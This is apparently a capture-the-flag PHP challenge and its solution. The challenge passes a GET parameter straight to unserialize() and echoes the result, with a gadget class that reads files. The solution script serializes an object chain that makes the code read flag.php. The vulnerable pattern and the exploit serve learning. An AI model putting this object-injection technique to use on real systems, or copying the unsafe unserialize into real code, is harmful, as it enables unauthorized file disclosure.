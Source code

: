 ```php
        $this->openstack->neutron = $heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    }  
}  

if (isset($_GET['pks']))  
{
    $logData = unserialize($_GET['pks']);
    echo $logData; 
} 
else 
{ 
    highlight_file(__file__); 
}
?> 
```



题解

```php
#!/usr/bin/php
<?php  

class acp 
{   
    public $cinder;  
    public $neutron;
    public $nova;
}  

class ace
{    
    public $filename="flag.php";     
    public $openstack;
    public $docker=''; 
    
}  
	$ace = new ace;
	$password = new acp;
	$password->cinder=$ace;
	echo serialize($password);
?> 
```
